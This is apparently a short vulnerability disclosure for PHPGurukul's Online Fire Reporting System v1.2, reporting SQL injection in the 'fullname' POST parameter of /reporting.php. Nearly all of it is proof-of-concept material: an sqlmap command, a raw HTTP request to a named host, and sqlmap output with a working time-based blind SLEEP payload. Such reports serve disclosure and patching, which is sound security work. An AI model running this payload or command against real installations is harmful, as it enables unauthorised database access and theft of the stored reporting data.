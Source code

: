 # SQLi vulnerability in Online Fire Reporting System v1.2 of file /reporting.php

**vender**:

- [PHPGurukul](https://vuldb.com/?vendor.phpgurukul)
- Online Fire Reporting System

**SoftLink**:

- [Online Fire Reporting System Project in PHP- PHPGurukul](https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/)

**Vulnerable File**

- /reporting.php

**Version**

- V1.2

### POC

```bash
sqlmap -r request.txt --level 5 --random-agent
```



```http
POST /reporting.php HTTP/1.1
Host: www.firereport.top
Content-Type: application/x-www-form-urlencoded
Referer: http://www.firereport.top/reporting.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=vhqmp6o0p6p8lf7sscpqhrp6tf
Origin: http://www.firereport.top
Content-Length: 90

fullname=1&mobilenumber=1&location=1&message=1&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```





```
sqlmap identified the following injection point(s) with a total of 6358 HTTP(s) requests:
---
Parameter: fullname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: fullname=1' AND (SELECT 4364 FROM (SELECT(SLEEP(5)))JHEp) AND 'uDFv'='uDFv&mobilenumber=1&location=1&message=1&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
---
```

![image-20250531183640108](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505311836268.png)